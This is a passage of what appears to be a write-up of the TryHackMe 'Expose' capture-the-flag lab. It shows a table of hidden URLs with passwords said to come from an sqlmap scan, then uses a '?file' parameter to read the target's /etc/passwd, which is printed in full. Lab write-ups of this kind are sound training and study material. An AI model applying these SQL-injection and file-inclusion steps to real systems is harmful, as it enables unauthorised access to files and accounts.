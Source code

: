 | id | url | password |
| --- | --- | --- |
| 1 | /file1010111/index.php | <redacted>(<redacted>) |
| 3 | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z  |

We can navigate to the first url and put the password found with the sqlmap scan:

![Untitled](https://raw.githubusercontent.com/SimoneFelici/Expose-writeup-THM/main/4ca36771-eb73-4388-a0ae-5541d4fc580b_Export-7a75593e-3439-4e58-bca6-e041ad0479ff/Expose%208862d9d2d64c447b9983bf0fafb7c8f6/Untitled%204.png)

The site just says:

```bash
Parameter Fuzzing is also important :) or Can you hide DOM elements?
```

Apparently the parameter in question is “?file”

So maybe we can use that to read files in the system:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash

ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:115:122::/var/cache/bind:/usr/sbin/nologin
Debian-snmp:x:116:123::/var/lib/snmp:/bin/false
redis:x:117:124::/var/lib/redis:/usr/sbin/nologin
mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin
fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```
